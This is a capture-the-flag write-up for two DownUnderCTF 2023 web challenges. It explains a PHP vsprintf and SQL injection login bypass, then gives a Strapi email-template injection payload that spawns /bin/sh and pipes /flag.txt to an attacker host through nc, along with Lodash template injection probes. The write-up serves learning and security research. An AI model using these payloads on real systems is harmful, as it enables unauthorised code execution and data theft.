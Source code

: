 ```yaml
---
title: What I learned from - downunderctf 2023- Web Section 
date: 2023-09-03 18:25:56
tags: ctf, downunderctf
---
```


# Smooth Jazz

## Source Code

```php
<?php
function mysql_fquery($mysqli, $query, $params) {
  return mysqli_query($mysqli, vsprintf($query, $params));
}

if (isset($_POST['username']) && isset($_POST['password'])) {
  $mysqli = mysqli_connect('db', 'challuser', 'challpass', 'challenge');
  $username = strtr($_POST['username'], ['"' => '\\"', '\\' => '\\\\']);
  $password = sha1($_POST['password']);

  $res = mysql_fquery($mysqli, 'SELECT * FROM users WHERE username = "%s"', [$username]);
  if (!mysqli_fetch_assoc($res)) {
     $message = "Username not found.";
     goto fail;
  }
  $res = mysql_fquery($mysqli, 'SELECT * FROM users WHERE username = "'.$username.'" AND password = "%s"', [$password]);
  if (!mysqli_fetch_assoc($res)) {
     $message = "Invalid password.";
     goto fail;
  }
  $htmlsafe_username = htmlspecialchars($username, ENT_COMPAT | ENT_SUBSTITUTE);
  $greeting = $username === "admin" 
      ? "Hello $htmlsafe_username, the server time is %s and the flag is %s"
      : "Hello $htmlsafe_username, the server time is %s";

  $message = vsprintf($greeting, [date('Y-m-d H:i:s'), getenv('FLAG')]);
  
  fail:
}
?>
```



## Prerequisite knowledge

- Mysql engine **truncates** string from the beginning of an invalid UTF8-encoding character.

- Familiarity with the **format** parameter and the behavior of the **vsprintf** function in PHP.

  - `vsprintf(string $format, mixed ...$values): string`

    - **Format parameter**: 

      - `%[argnum$][flags][width][.precision][specifier]`

        - Example: **[%](starting symbol)** **[1$](match the first value from values)** **['a](replace pad symbol(blank) with (char))** **[s](specifier, determin the data type)**

          > **%**: starting symbol
          >
          > **1$**: [argnums$] :match the first value from values that are passed in.
          >
          > **'a**: one option of the [flags] -> '(char): Replace blank with 'a' to pad the result string. For example, when [width] is set to 100 and the real length of the formatting string is only 5, the rest of the 95 characters would be padded with the letter 'a'.
          >
          > **s**: [specifier]: specify the data type for each data from inputted values. `%` is also a specifier, used for output real `%`, which is a tricky one for <u>smuggling</u> a new token by combining it with the **htmlspecialchars** function.

## Payload

```
POST /

username=admin%ff%251$c%23+%251$'>%25s&password=668
```

- **%ff**: truncates string after "admin". From the Mysql engine's perspective, <u>all the input characters are already determined as "admin"</u>.

- **%251$c** (URL DECODING)-> **%1$c**: a positional specifier tricks the sprints function to format string as we want. In other words, it controls the real transfer stream and achieves our expectations by combining with the password value.

  why we can't directly use %c to format the password field is that formatting a string usually works in order, rendering each item of an input array perspectively to each place of specifier. So we need to specify which data to render, avoiding the error.

  > PHP Fatal error:  Uncaught ValueError: The arguments array must contain 2 items, 1 given in /var/www/html/index.php:3\nStack trace:\n#0 /var/www/html/index.php(3): vsprintf()

- **password=668**: cha1(668) = 34cXXXXX. %34 represents a url-encoded **double-quote**. vsprintf("%1$c", 34) will generate a double-quote to exploit SQL Injection, <u>bypassing the password authentication</u>. 

- **%251$'>%25s** (URL DECODING)-> **%1$'>%s**:  the last step to do is get flag. Although we can not make the username totally match "admin", we can inject a specifier as above to exfiltrate the second 'FLAG' formatting input. 

- To that end, there is a problem emerging. We can not pass two specifiers into the username field, since the previous vsprintf functions all only accept one input value. That means if we directly pass two specifiers in, it will cause a error from php interpreters as we discussed above. So the key point is to leverage `htmlspecialchars` function to "create a specifier" for us. That is what this payload did.

- %1$'>%s --htmlspecialchars-->  %1$'\&gt;%s

  -  The first specifier: **%1$'&g**: a floating point number, taking from position 1, using & as padding char
  - followed by the string "t;"
  - The second specifier: **%s**: string taken from the 2nd position, that is where the FLAG is.

- That is how we arrived there.

# Strapi In

STRAPI IN quick writeup : 

step 1: create a  custom template with a reference id 1

```
{{x=Object}}{{w=a=new x}}{{w.type="pipe"}}{{w.readable=1}}{{w.writable=1}}{{a.file="/bin/sh"}}{{a.args=["/bin/sh","-c","nc **YOUR_IP YOUR_PORT** < /flag.txt"]}}{{a.stdio=[w,w]}}{{process.binding("spawn_sync").spawn(a).output}}
```

step 2: visit the url: https://web-strapi-in-6a0f1abf2bf0cbc0.2023.ductf.dev/api/sendtestemail/1 

**for debug**

`/opt/strapi-in/node_modules/strapi-plugin-email-designer/server/services/email.js:91:87`

![image-20230902190236092](https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190236092.png)

![image-20230902190324305](https://api.2h0ng.wiki:443/noteimages/2023/09/02/image-20230902190324305.png)

## mustache template with Lodash SSTI payloads

```
{{= _.VERSION }}
{{= _.templateSettings.evaluate }}

```

https://github.com/janl/mustache.js

## Reference

https://www.php.net/manual/en/function.sprintf.php#Specifiers

https://www.php.net/manual/en/function.htmlspecialchars.php

https://github.com/DownUnderCTF/Challenges_2023_Public/blob/main/web/smooth-jazz/solve/solution.py

https://www.geeksforgeeks.org/lodash-_-template-method/

https://twitter.com/rootxharsh/status/1268181937127997446?lang=en

https://www.ghostccamm.com/blog/multi_strapi_vulns/

https://lodash.com/docs/4.17.15#templateSettings